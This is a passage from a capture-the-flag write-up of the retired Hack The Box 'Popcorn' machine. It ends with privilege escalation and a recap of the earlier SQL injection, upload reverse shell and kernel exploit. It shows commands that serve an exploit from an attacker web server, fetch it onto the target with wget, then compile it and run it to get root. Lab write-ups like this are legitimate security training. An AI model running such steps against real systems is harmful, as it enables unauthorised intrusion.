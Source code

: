 Shellcodes: No Result
Papers: No Result
{% endhighlight %}

Vaguely recalling a morning commute read the Full and Half Nelsons ring a bell as a reliable and deadly exploit.

After reading through 15704.c and doing a test compile on the attacker it looks decent enough but I need a compiler for i686 arch to run.

I check for the gcc compiler on popcorn:

{% highlight shell %}
which gcc
{% endhighlight %}

to get

{% highlight plaintext %}
/usr/bin/gcc
{% endhighlight %}

Sweet, if I transfer the exploit it should compile, now on a new window I pop a quick python webserver on the attacker:

{% highlight shell %}
sudo python -m SimpleHTTPServer 80
{% endhighlight %}

Back to popcorn I move to /tmp pull the exploit over with wget and compile:

{% highlight shell %}
cd /tmp && wget http://10.10.14.34/15704.c
gcc 15704.c -o evil
{% endhighlight %}

I run the exploit

{% highlight shell %}
./evil
{% endhighlight %}

Boom! I'm root! W00tW00t!

{% highlight shell %}
id
uid=0(root) gid=0(root)
{% endhighlight %}

From here getting the flags is easy.

## Conclusions

In this post I covered an in-depth look at attacking the Popcorn machine.

We looked at basic scanning and enumeration of services to find a hidden webapp. I then bypassed the authentication controls via SQLi which gave me admin access to the web app. From here I was able to double down on inadequete file upload santisation to install a reverse shell. From here it was trivial to maintain my persistence and work towards exploiting the insecure kernel.

This post concludes the [KaliSetup](/posts/#{{ categories }}) series, where I set up Kali and Commando VMs in HyperV. I then built on the Kali VM to set up for use in [HTB](https://www.hackthebox.eu/home){:target="_blank"} and then broke into the retired Popcorn machine.